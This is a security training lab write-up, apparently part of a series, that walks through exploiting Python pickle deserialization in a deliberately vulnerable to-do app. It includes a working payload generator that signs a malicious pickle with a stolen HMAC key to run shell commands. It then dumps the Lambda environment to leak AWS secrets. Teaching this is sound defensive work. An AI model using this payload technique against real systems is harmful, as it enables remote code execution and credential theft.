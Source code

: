 # Lab 3

## Introduction

In the previous lab, we found and exploited an XXE bug in the application. Using that bug, we were able to disclose source code of the application, which had an HMAC key hard-coded.

In this lab, we will use that HMAC key to generate a signed, malicious pickle blob to gain code execution in the Lambda container.

## Methodology

We discovered early on (and confirmed via our source code l00t) that the application parses XML import files, extracts `data` and `hmac` elements, validates the data using the HMAC, and then unpickles the data. If the data doesn't pass the HMAC check, it is rejected - that's a perfectly valid way to mitigate deserialization issues. Unfortunately we were able to steal the HMAC key via another vulnerability, and we can now leverage a "feature" of Python's pickle deserialization to gain code execution. In this lab, we'll:

1. Craft a pickle deserialization exploit that steals environment variables
2. Generate an HMAC digest of that exploit that will pass the check
3. Automate payload generation with a Python script
4. Upload our exploit payload and observe the results

## Crafting a pickle deserialization exploit

The primary goal of our exploit will be to read the environment; because sensitive and dynamic data is often passed into the container via the environment, we are likely to find something useful there.

The Python `pickle` library is a serialization library that allows you to serialize Python objects; that is, flatten the object to a byte string, for transport to a remote Python interpreter. Once it reaches the destination, it can be deserialized and used as an object again.

To see how this works in practice, let's deserialize our payload from before. Grab the body of the `data` element from your exported to-do list, open a Python interpreter, and deserialize it as follows:

```
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode('KGxwMAooZHAxClZsaXN0TmFtZQpwMgpWTTBycmlzCnAzCnNWdGFza0Rlc2NyaXB0aW9uCnA0ClZGb28gdGhlIGJhcgpwNQpzVnRhc2tJZApwNgpWNzlMclhrTjBtNEdYS2kzawpwNwpzYShkcDgKVmxpc3ROYW1lCnA5ClZNMHJyaXMKcDEwCnNWdGFza0Rlc2NyaXB0aW9uCnAxMQpWRnJvYiB0aGUgYml6CnAxMgpzVnRhc2tJZApwMTMKVkNWbDNrSWVHYVc0cVFIZjcKcDE0CnNhKGRwMTUKVmxpc3ROYW1lCnAxNgpWTTBycmlzCnAxNwpzVnRhc2tEZXNjcmlwdGlvbgpwMTgKVkJhciB0aGUgZnJvYgpwMTkKc1Z0YXNrSWQKcDIwClZZTHZvSlU3N2xYZTMwaHoxCnAyMQpzYS4='))

# Output: [{u'listName': u'M0rris', u'taskDescription': u'Foo the bar', u'taskId': u'79LrXkN0m4GXKi3k'}, ...
```

The `data` element contains a list of all the tasks we exported, in a pickle-serialized format. Easy enough!

Before we craft our payload, let's revisit how the pickle-deserialization vulnerability works. When an object is being pickled, the pickling routine calls a class method `__reduce__` that returns a function (and its arguments) to be used as an entrypoint when the object is being unpickled (or, "deserialized").

With this background, we can craft a Python class that implements `__reduce__` such that the interpreter executes arbitrary code when it deserializes our Pickle object. Let's try a simple payload:

```
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())
    print('<data>' + base64.b64encode(data) + </data>)

main()
```

Let's break that down...

The `__reduce__` method in this example returns a 2-tuple containing:

1. A function that the pickle library calls when deserializing the object on target
2. Arguments to that function

In this case, we will use  `subprocess.check_output` to invoke a shell and print the string "Hello World".

Run this Python script to see what it prints.

## Generating an HMAC to make it legit

Since we were able to capture the HMAC key in the previous lab, let's generate an HMAC digest of this pickle payload. Together with a valid HMAC, our malicious payload will pass the check and be considered valid by the Import function.

Remember, if the XML doesn't contain all valid fields or contains any invalid fields (including invalid Pickle data), we'll never reach the deserialization code.

Update your Python payload generator to calculate the HMAC, using our captured key:

```
import cPickle
import subprocess
import base64
import hmac
import hashlib

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())

    h = hmac.new('\x16q\x1c\x10\xfa\xa1\xf1\xf0}%\x95\xce\xa2\xf7\xd1\x8c-\rr\xe5\x91\x9eLS\x15\xbf\xe4\xc4\xd6F\x96\xbe', data, hashlib.sha256)
    digest = h.hexdigest()

    print('<?xml version="1.0"?>')
    print('<backup>')
    print('  <data>' + base64.b64encode(data) + '</data>')
    print('  <hmac>' + digest + '</hmac>')
    print('</backup>')

main()
```

Running that script should provide a valid document that we can import to our todo list.

## Uploading the payload

Run the Python script to generate your pickle exploit, saving the payload to disk:

```
python make_pickle.py >Desktop/pickle_exploit.xml
cat Desktop/pickle_exploit.xml
```

Now upload it using the Import functionality:

![Pickle hello-world exploit](./images/3-pickle-hw.png)

It worked!

Let's use this code execution to read the environment. Change your pickle exploit payload to run the command `/bin/sh -c declare`; this will dump the environment back to us!

Upload your payload to see the result:

![Getting the environment via pickle deserialization](./images/3-env.png)

See anything interesting?

## Extra credit

Can you learn the names of all the lists people have created today?

## Recap

We were able to leverage pickle deserialization to gain code execution on the Lambda container, leaking AWS secrets from the environment. In order to get the backend code to deserialize our pickle exploit, we needed to generate a valid HMAC digest using the key leaked in Lab 2.

## Vulnerabilities covered

| Designation | Description | Comment |
| :---: | --- | --- |
| A2:2017 | Broken Authentication | Pickle data validation is bypassed with leaked HMAC key |
| A5:2017 | Broken Access Control | (extra credit) |
| A8:2017 | Insecure Deserialization | Pickle deserialization is vulnerable to exploitation via `__reduce__` |
